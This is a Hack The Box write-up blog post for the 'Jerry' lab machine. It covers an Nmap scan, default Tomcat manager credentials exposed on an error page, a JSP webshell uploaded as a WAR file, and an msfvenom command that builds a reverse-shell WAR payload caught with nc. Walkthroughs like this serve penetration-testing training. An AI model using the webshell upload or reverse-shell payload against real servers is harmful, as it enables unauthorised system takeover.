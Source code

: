 ```yaml
---
layout: single
title: Hack The Box - Jerry
permalink: /htb-jerry/
excerpt: "Jerry is an easy box from HackTheBox. This machine explores the upload vulnerability in the manager section. Which the attacker can upload the WAR file payload and get the reverse shell as a system user. The credentials are really easy to own because it's using the default creds, also, the error page exposes it as well."
classes: wide
header:
  teaser: "/assets/images/htb/jerry/Jerry.png"
  teaser_home_page: true
categories:
  - hackthebox
  - windows
  - infosec
  - easy-htb
tags:
  - upload-vuln
  - rce
  - msfvenom
  - jsp-webshell
  - war-file
  - apache-tomcat
---
```



![1](/assets/images/htb/jerry/Jerry.png)

### <font color="#9bffc8">Nmap</font>

As always, I'm gonna start with the Nmap scan with this IP address `10.10.10.95`

```sql
# Nmap 7.92 scan initiated Tue Mar  1 07:29:58 2022 as: nmap -sC -sV -p- -oN nmap/jerry_all 10.10.10.95
Nmap scan report for 10.10.10.95
Host is up (0.060s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Mar  1 07:36:10 2022 -- 1 IP address (1 host up) scanned in 371.74 seconds
```

One port just opens at `8080` and it is `Apache Tomcat`. Well, this machine is straightforward. So, I'm gonna show, you how to exploit it with `msfvenom` and `web shell`. Let's go.

### <font color="#9bffc8">Http (Apache Tomcat)</font>
Let's take a look at port `8080` which serve as Http.


![1](/assets/images/htb/jerry/apache-default-install-page.png)

It's just an `Apache Tomcat` default page after installations. So, I'll try to play around. Then, I found the `/manager/html` section upon clicking the  `Manager App` button. Also, I found the credentials on the `error` page.


![1](/assets/images/htb/jerry/error-page.png)

### <font color="#9bffc8">/manager/html</font>
On this page, we can upload the `WAR` file to the server. Then, I'm thinking maybe I can upload some sort of shell since this is an old version of `Apache Tomcat`. 


![1](/assets/images/htb/jerry/upload-the-war-file-page.png)

### <font color="#9bffc8">WebShell</font>
With light googling, I found this [webshell](https://raw.githubusercontent.com/BustedSec/webshell/master/index.jsp). So, I'm gonna create a new directory called `xploit`. Then, download it with the `wget` command in `xploit` dir. However, we wanted in form of a `WAR` file to be able to upload it. Let's convert this `.jsp` file into `.WAR` file.


![1](/assets/images/htb/jerry/convert-jsp-file-into-war-file.png)

If the command successfully ran. There will be a new file created in your current directory. In this case, my `xploit` directory. Now, Let's upload the newly created web shell to the server. It went through and didn't throw any errors. 


![1](/assets/images/htb/jerry/webshell-created-after-upload.png)

To spawn the shell, just click the `/web shell` path in the table. 


![1](/assets/images/htb/jerry/run-the-whoami-in-the-webshell.png)

WOW! we just became `nt authority\system` user. Furthermore, you can upload the [nishang](https://github.com/samratashok/nishang)  reverse shell to get a proper shell.

### <font color="#9bffc8">MSFVenom</font>
If you like to get a reverse shell straight away. We can use the `msfvenom` payload and get the connection back through `nc`. First, let's create the `payload` with this command; and make sure to start the listener as well.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=your_ip LPORT=any_port -f war -o shell.war
```


![1](/assets/images/htb/jerry/created-msfvenom-payload.png)

The last step is, to upload it into this machine and double-click the `/shell`. _ET VOILA_


![1](/assets/images/htb/jerry/nc-reverse-shell-callback.png)